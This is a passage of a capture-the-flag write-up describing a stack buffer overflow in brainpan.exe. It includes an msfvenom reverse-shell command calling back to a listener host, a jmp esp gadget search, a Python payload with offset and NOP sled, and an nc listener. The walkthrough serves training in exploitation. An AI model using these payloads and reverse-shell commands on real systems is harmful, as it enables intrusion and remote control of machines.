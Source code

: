 ```
0x00000000deadbeef: addb	%al,0x0(%eax)
Wine-dbg>

```

It is clear that we are controlling the instruction pointer.

Using a cargo package, [binary-security-check](https://github.com/koutheir/binary-security-check), we can see that it does not have DEP enabled:
`binary-security-check brainpan.exe`
```
brainpan.exe: +CHECKSUM !DATA-EXEC-PREVENT !RUNS-IN-APP-CONTAINER +CONSIDER-MANIFEST !VERI
```

This means we can get it to execute shellcode.

We can generate the shellcode using `msfvenom -p windows/shell_reverse_tcp LHOST=10.6.0.114 LPORT=4444 -f python -b='\x00'`

This gives us shellcode to be used in a python format that calls back to a meterpreter on port 4444 on our machine. 

Before we can jump to the shellcode, we need to find a ROP gadget to do so. Because we are writing to the stack, we want a gadget that does `jmp esp` to jump to the stack pointer.

We can find this gadget with `ROPgadget --binary brainpan.exe  | grep 'jmp esp'`, which gives us an address of `0x311712f3`

Thus, our payload looks like the following:

```python3
offset = 524
payload = b'A'*offset
payload += p32(0x311712f3)
payload += b'\x90'*32
payload += shellcode
```

Here, the instruction pointer is overwritten witht the address of `jmp esp`, which allows us to execute what is on the stack (our shellcode)

Here, `\x90` is the opcode for a `nop`, which is there to ensure that the shellcode runs properly.


### Connecting

To connect to the reverse shell, we have to set up a listener with `nc -lvnp 4444`

We can then run the python exploit and we should get a callback

# Local Reconnaissance

For some reason, `systeminfo` doesn't seem to work

Interestingly, it appears that we are on a linux file system. 

We can type `c:` to get to the windows machine drive, but it doesn't look like a real windows filesystem.
